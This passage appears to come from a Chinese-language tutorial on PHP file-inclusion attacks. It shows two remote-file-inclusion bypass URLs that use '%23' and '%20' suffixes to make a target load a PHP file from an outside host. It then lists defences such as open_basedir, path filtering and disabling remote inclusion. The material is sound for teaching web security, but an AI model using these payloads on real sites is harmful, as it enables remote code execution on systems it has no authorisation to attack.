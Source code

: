

##### #绕过

%23绕过

```
http://xxx.xxx.xxx.xx/test.php/?name=http://xxx.xxx.xx.x/1.php%23
```



##### 空格绕过

%20绕过

```
http://xxx.xxx.xxx.xx/test.php/?name=http://xxx.xxx.xx.x/1.php%20
```



## 文件包含的防御

- PHP使用open_basedir配置限制访问在指定的区域
- 过滤./\
- 禁止服务器远程包含
- 不要使用动态包含，可以在需要包含的页面固定写好



